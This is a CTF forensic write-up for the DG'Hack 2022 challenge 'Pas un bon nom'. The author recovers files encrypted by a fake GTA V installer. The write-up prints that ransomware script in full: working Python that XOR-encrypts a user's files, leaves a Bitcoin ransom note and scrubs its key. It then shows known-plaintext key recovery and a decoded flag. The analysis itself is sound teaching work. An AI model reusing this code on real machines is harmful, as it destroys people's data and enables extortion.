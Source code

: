 ```yaml
---
createdAt: 2022-11-25
title: "[DG'Hack 2022 - Forensic] Pas un bon nom"
description: "Pas un bon nom is a challenge from DG'hack CTF."
type: 'Writeups'
tags: ["Forensic"]
---
```


# Not a good name - Pas Un Bon Nom

> author : malon 

### Intro 

> I was just sitting there on my PC, m'kay? I'm downloading movies and stuff, mkay? And then there's this weird message that I have to pay Dogecoin to decrypt my data. I didn't do it... so now my data is encrypted :( So here, take the hard drive, it's not like it's useful now... Unless it was possible to find the key used by that evil hacker, m'kay? Would you like it? You'd be lovely thank you!

### Initial step

```bash
ls 
#pc-jeane.ova
```

ova -> virtualbox

once started, we now know that the OS is Lubuntu

```bash
ls
#Desktop    Downloads           Music     Public                          Templates
#Documents  GTA_V_installer.py  Pictures  READ_TO_RETRIEVE_YOUR_DATA.txt  Videos
```

The two files with capitalized names stand out, and indeed
![image-20221111230502233](https://taurine.vercel.app/images/blog/dghack2022/image6.png)

It seems that the owner has downloaded a lot of stuff including a supra legit GTA-V.

### In-depth investigation

*GTA_V_installer.py*

```python
#!/bin/python3

import os
import fileinput
import sys

main_folder = "./"

def encryptDecrypt(inpDataBytes):

    # Define XOR key
    keyLength = len(xorKey)
 
    # calculate length of input string
    length = len(inpDataBytes)
 
    # perform XOR operation of key
    # with every byte
    for i in range(length):
        inpDataBytes[i] = inpDataBytes[i] ^ ord(xorKey[i % keyLength])

    return inpDataBytes

if __name__ == '__main__':
    # list all the files in the main folder, and its subfolders
    #list_of_files = [main_folder + f for f in os.listdir(main_folder) if os.path.isfile(main_folder + f) and not f.startswith('.')]
    list_of_files = []
    for root, dirs, files in os.walk(main_folder):
        for file in files:
            if not '/.' in os.path.join(root, file):
                # get the file name
                list_of_files.append(os.path.join(root, file))
    print(list_of_files)
    print("\n")

    xorKey = input("Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: ")

    for file in list_of_files:
        if "GTA_V_installer.py" not in file:
            with open(file, 'rb') as f:
                data = bytearray(f.read())
                print("data : " + str(data) + "\n")
                encrypted_data = encryptDecrypt(data)
                print("encrypted : " + str(encrypted_data) + "\n")
            with open(file, 'wb') as f:
                f.write(encrypted_data)

    # Create a READ_TO_RETRIEVE_YOUR_DATA.txt file
    with open(main_folder + "READ_TO_RETRIEVE_YOUR_DATA.txt", 'w') as f:
        f.write("Your PC is now encrypted.\nThe only way you may retrieve your data is by sending 1000 Bitcoins to the following address: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa\n")
        f.write("Add a message to the Bitcoin transfer with your email address.\nThe code to decrypt your data will be sent automatically to this email.\n")
        f.write("Once you get this code, simply run \"python GTA_V_installer.py\" and input your code.\n")
        f.write("I'm very sorry for the inconvenience. I need to feed my family.\n")
        f.write("HODL.\n")

    # I replace the line where the key is defined, that way I can use the same script for decryption without leaving any trace of the key
    is_edited = False
    for line in fileinput.input("./GTA_V_installer.py", inplace=1):
        if "xorKey = " in line and not is_edited:
            line = "    xorKey = input(\"Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: \")\n"
            is_edited = True
        sys.stdout.write(line)
```

All the non-hidden files present in /home/jeanne have been encrypted but fortunately, the encryption is simple, the files have just been XORied with a key.

reminder : 
$$
a \oplus b = c \newline
a \oplus c = b
$$
If we take a closer look at the list of encrypted files, we notice the 

- network.desktop
- trash-can.desktop
- user-home.desktop
- computer.desktop

These are the files that allow you to create shortcuts for launching applications from the desktop, by checking a little, I realize that they often have the same format, ( as long as there is no comment), but I decide to turn on a vm lubuntu that I had on hand to go and look for these files that have very strong chances to be the same

I get the two computer.desktop that I display both in hexa

![image-20221111233202365](https://taurine.vercel.app/images/blog/dghack2022/image7.png)


Given computer(1).desktop=A (original file) and computer.desktop=C (our encrypted file) 

if you want to find the encryption key for the xor operation, you just have to xor A and C (to obtain B)

![image-20221111233550094](https://taurine.vercel.app/images/blog/dghack2022/image8.png)

At a glance, the key appears to us

```bash
REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=
```

But it looks like base64 encoded string so : 

```bash
echo -n "REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=" | base64d -d
#DGHACK{***...}
```

Here is our flag :)
